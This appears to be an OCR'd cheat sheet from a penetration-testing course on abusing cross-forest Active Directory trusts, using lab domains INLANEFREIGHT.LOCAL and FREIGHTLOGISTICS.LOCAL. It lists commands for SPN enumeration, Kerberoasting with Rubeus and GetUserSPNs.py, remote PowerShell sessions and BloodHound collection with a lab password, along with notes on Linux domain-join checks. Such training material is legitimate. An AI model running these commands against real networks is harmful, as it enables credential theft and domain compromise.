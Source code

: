 

# Trust Relationships - Cross-Forest 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName` | Enumerating accounts for associated SPNs using Get-DomainUser|
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof` |Enumerating the mssqlsvc account |
| ` .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Performing a Kerberoasting Attacking with Rubeus Using /domain Flag |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | Enumerating groups with users that do not belong to the domain |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system |
| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Request the TGS ticket of an account in a target Windows domain |
| `GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -request -outputfile TGS_ticket` | Request the TGS ticket of an account in a target Windows domain |
| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host. |
| `zip -r ilfreight_bh.zip *.json`                             | Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI. |

## Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

```
powen@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```


# Identifying Linux and Active Directory Integration

realm - Check If Linux Machine is Domain Joined
```
realm list
```

PS - Check if Linux Machine is Domain Joined
```
ps -ef | grep -i "winbind\|sssd"
```


[DEV01]: PS C:\Users\backupadm\Documents> klist